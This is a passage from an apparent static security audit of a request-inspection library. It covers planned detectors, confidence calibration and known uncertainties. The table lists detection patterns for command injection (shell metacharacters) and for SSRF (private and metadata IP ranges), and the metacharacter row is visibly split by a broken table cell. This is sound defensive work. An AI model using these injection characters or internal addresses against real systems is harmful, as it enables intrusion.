| Command Injection   | ❌ not implemented                             | Shell metachar set (`;`, `                                                                                                                                                                                          | `, `&`, `` ` ``, `$()`, `>`, `<`, `\n`), common command names |
| SSRF                | ❌ not implemented                             | URL extraction + private IP range check (`169.254.x.x`, `10.x`, `172.16-31.x`, `127.x`, `::1`, `fc00::/7`)                                                                                                          |
| Budget              | `maxDurationMs` unenforced                     | `performance.now()` gate at each detector iteration start                                                                                                                                                           |
| Sink awareness      | Manual observer call                           | Optional `AsyncLocalStorage`-based auto-correlation: request signal + sink observation = high-confidence combined finding                                                                                           |
| Multi-process store | In-memory only                                 | First-class Redis adapter interface with atomic `INCR`+`EXPIRE`                                                                                                                                                     |
| Header inspection   | 3 headers only                                 | Configurable header inspection allowlist (host controls which headers are in scope)                                                                                                                                 |

### 6.4 Confidence Calibration

Hard-coded confidence values (0.86, 0.82, etc.) should be replaced with calibrated values derived from a labeled dataset of true-positive and false-positive samples, validated per DB dialect and per sink context.

---

## 7. Known Uncertainties

- **Locale behavior of `toLocaleLowerCase()`** in non-English server locales (Turkish `I → ı`) — not tested.
- **`performance.now()` resolution** on low-resolution environments (some environments clamp to 1ms or 5ms) may affect timing tests.
- **The `InMemoryAtomicCounterStore` concurrency model** under async I/O — not formally proven race-free (relies on JS single-thread guarantee which may not apply across microtask boundaries depending on how the store is extended).
- **Whether `NFKC` covers all Unicode-based homoglyph attacks** used in practice — not comprehensively evaluated.
- **`challenge` action integration** — the `ChallengeAdapter` interface has no bundled implementation; its security properties depend entirely on what the host provides.

---

_Audit scope: read-only static analysis of source code and tests. No dynamic testing performed. No files modified. No dependencies installed._
